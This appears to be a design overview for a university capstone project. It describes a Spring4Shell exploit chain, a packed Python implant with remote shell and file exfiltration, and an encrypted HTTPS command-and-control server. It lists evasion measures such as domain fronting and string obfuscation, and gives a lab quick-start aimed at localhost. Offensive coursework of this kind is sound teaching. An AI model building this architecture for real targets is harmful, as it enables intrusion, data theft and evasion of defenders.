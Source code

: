 # Capstone C2 Chain – Design Overview

> **Purpose**   Explain how the exploit, implant, C2 server, and lab network fit together so that any team‑member—or grader—can follow the flow **without reading code first**.

---

## 1  Mission Goal
* _Initial Access_ – Weaponised Spring4Shell (CVE‑2022‑22965) on Tomcat 9/Spring 5.3.15.
* _Implant_ – Cross‑platform Python agent (PyInstaller‑packed) that answers JSON tasking.
* _Command & Control_ – HTTPS long‑poll, ECDH‑derived AES‑GCM encryption, domain‑frontable paths.
* _Effects_ – remote shell, file exfil, system screenshot.
* _Safety_ – self‑delete when:
  * kill‑switch task received, **or**
  * no C2 contact > 7 days.

---

## 2  Component Diagram
```
┌────────────┐              HTTPS+JSON              ┌─────────────┐
│  Operator  │ ←──────────── TLS 443 ─────────────→ │  Redirector │
│  Console   │              (edge/proxy)            └────┬────────┘
└────┬───────┘                                            │gRPC
     │SSH/VPN                                             ▼
┌────▼─────────┐   SQLite + Flask     ┌──────────┐   ┌───────────┐
│  C2 Server   │◄────────────────────►│  Queue   │…  │  Storage  │
└────┬───────┬─┘                      └──────────┘   └───────────┘
     │REST   │Pull every 30 s
┌────▼──────────────┐                Encrypted           
│  Implant Agent    │◄─────────────────────────────────────┐
│(on compromised VM)│ ─────────────────────────────────────►│
└───────────────────┘            Task / Result JSON         
```

---

## 3  Repository Structure (link‑back)
See **PROJECT_STRUCTURE.md** for a per‑file map.  The short version:

| Layer      | Folder     | Entrypoint             | Key Dependencies                   |
|------------|------------|------------------------|------------------------------------|
| Exploit    | `exploit/` | `stage0_exploit.py`    | `requests`, `argparse`             |
| Implant    | `implant/` | `implant.py`           | `common.protocol`, `pycryptodome`  |
| C2 Core    | `c2/`      | `c2_server.py`         | `Flask`, `sqlite3`, `cryptography` |
| Shared lib | `common/`  | `crypto_lib.py`        | `cryptography`                     |
| Docs       | `docs/`    | `design.md`, `slides/` | –––––––––––––––––––––––            |

---

## 4  Protocol Summary
```jsonc
{
  "id": "uuid4",          // correlates task & result
  "op": "exec",          // enum: exec, exfil, screenshot, kill
  "args": { "cmd": "whoami" },
  "ts": 1714070400,
  "sig": "base64-HMAC"     // over id|op|args using session key
}
```
* **Handshake** – implant POSTs its Curve25519 public key; server replies with its own + nonce.  Shared secret → HKDF → AES‑GCM key.
* **Transport** – long‑poll `POST /resources/<rand>/metrics` every 30 s; replies carry up to one task.  Results posted back to `/reports/`.

---

## 5  Threat Model & Defences
| Threat | Mitigation |
|--------|------------|
|Traffic inspection (IDS/IPS)|Domain‑frontable path & innocuous JSON; AES‑GCM hides payload length via  padding.|
|Attribution to operator|Cloud redirector contains no secrets; C2 Core only reachable via WireGuard.|
|Binary forensics|PyInstaller one‑file + string‑table XOR; compiled w/ `--key` so embedded code encrypted.|
|Key theft on disk|Session key lives only in RAM; private Curve key encrypted with machine‑specific hash & deleted on tear‑down.|
|Replay / task forgery|Per‑message nonce + HMAC inside AES‑GCM prevents replay.|

---

## 6  File‑header Comment Template
Every Python/JSP/Script file should start with:
```python
"""
<filename>
<one‑line purpose>

Part of the CS564 Spring 2025 Capstone · Jacob / <Teammate>
License: MIT (see root LICENSE)

Role in chain:
  – <exploit / implant / c2 / helper>
  – Invoked by: <who calls it>
  – Key secrets stored: <none OR list>
"""
```
Copy & paste, then fill the three bullets.

---

## 7  Testing Strategy
* `pytest tests/test_protocol.py` – handshake, encrypt/decrypt round‑trip.
* `pytest tests/test_exploit_e2e.py` – spin docker‑compose, run exploit, assert implant beacons.
* CI matrix = `ubuntu‑latest` + `macos‑latest`.

---

## 8  Build & Run Quick‑Start (mirrors README)
```bash
# 1. clone & bootstrap
python3 -m venv venv && source venv/bin/activate
pip install -r requirements.txt

# 2. launch vulnerable lab + C2
./scripts/run_all.sh

# 3. fire exploit
python exploit/stage0_exploit.py --rhost 127.0.0.1 --lhost 127.0.0.1 --c2 https://127.0.0.1:5000
```

---
